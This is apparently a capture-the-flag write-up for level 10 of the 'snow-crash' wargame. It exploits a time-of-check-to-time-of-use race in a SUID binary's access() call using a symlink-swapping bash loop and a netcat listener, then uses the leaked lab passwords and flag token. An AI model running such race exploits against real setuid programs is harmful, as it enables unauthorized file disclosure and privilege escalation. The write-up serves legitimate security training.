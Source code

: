 # Level10

Login as `level10`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level10
level09@192.168.1.64's password: s5cAJpM8ev6XHw998pRWG728z
```

As in some of the previous levels, we have a `SUID binary` and a `token` file:

```bash
level10@SnowCrash:$ ls -l
total 16 -rwsr-sr-x+ 1 flag10 level10 10817 Mar 5 2016 level10
-rw------- 1 flag10 flag10 26 Mar 5 2016 token
level10@SnowCrash:$ ./level10
./level10 file host sends file to host if you have access to it
level10@SnowCrash:$ ./level10 token localhost
You don't have access to ./token
level10@SnowCrash:$ cat token
cat: token: Permission denied
```

Executing it we notice that it sends file to host if we have access to it.

Using `gdb` and `r2` we notice that `access` command/call is used. And also, `port 6969` is also used.

`ltrace` can also be used to intercept dynamic library calls as well as system calls executed by the program.

```bash
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4) = -1
printf("You don't have access to %s\n", "token"You don't have access to token) = 31
+++ exited (status 31) +++
```

`man access` already warns us about the use of this call and its security concerns:


    NOTES
       Warning:  Using  these  calls  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the
       user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In
       the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)


After investigating on the net, mainly through StackOverflow, we can see there a discussion about `TOCTOU` race (Timr of Check to Time of Update):

    A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls.

So we implement our own simple `TOCTOU` script:

```bash
level10@SnowCrash:~$ vi /tmp/toctou.sh
#!/bin/bash

TOKEN=/home/user/level10/token
SYMLINK=/tmp/symlink
EMPTYFILE=/tmp/empty
TMPFILE=$(/bin/mktemp)

/usr/bin/touch $EMPTYFILE
/bin/ln -s $TOKEN $SYMLINK

while true
do
	/bin/mv $SYMLINK $TMPFILE
	/bin/mv $EMPTYFILE $SYMLINK
	/bin/mv $TMPFILE $EMPTYFILE
done
```

Set execution bits and run the script.

```bash
level10@SnowCrash:~$ chmod +x /tmp/toctou.sh
level10@SnowCrash:~$ /tmp/toctou.sh &
```

Listen on `6969 port` and print non-matching lines  `grep -v ".*( )*."`  -> regex expression that matches any string containing zero or more characters followed by zero or more spaces and then any character.

```bash
level10@SnowCrash:~$ nc -lk 6969 | grep -v ".*( )*." &
```

Run the binary in a while loop and wait for the script to get the passwor from the token file. Might take a while.

```bash
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink 127.0.0.1; done &>/dev/null
woupa2yuojeeaaed06riuj63c
```

Finally log as `flag10` and get the flag:

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```